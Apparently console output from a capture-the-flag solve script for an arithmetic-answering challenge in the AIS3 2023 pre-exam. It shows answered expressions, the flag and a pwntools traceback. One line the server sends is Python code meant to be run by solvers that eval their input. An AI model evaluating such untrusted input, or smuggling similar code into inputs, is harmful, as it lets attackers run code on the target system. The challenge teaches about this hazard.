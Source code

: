 ```
ans: 8
6    +    3
ans: 9
9     +     7
ans: 16
1*1
ans: 1
3     *     4
ans: 12
6 + 4
ans: 10
7     *     9
ans: 63
3     +     9
ans: 12
8  +  2
ans: 10
1+1
ans: 2
9     *     3
ans: 27
3  *  2
ans: 6
6*2
ans: 12
6+5
ans: 11
1+2
ans: 3
7  *  2
ans: 14
print('Segmentation fault (core dumped)'), exit(139)
bad
6  *  4
ans: 24
Congratulations! Flag: AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}
bad
Traceback (most recent call last):
  File "/home/chummy/ais3preexam2023/robotexp.py", line 10, in <module>
    now = r.recv(timeout=1)
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 104, in recv
    return self._recv(numb, timeout) or b''
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 174, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 153, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to chals1.ais3.org port 12348
```
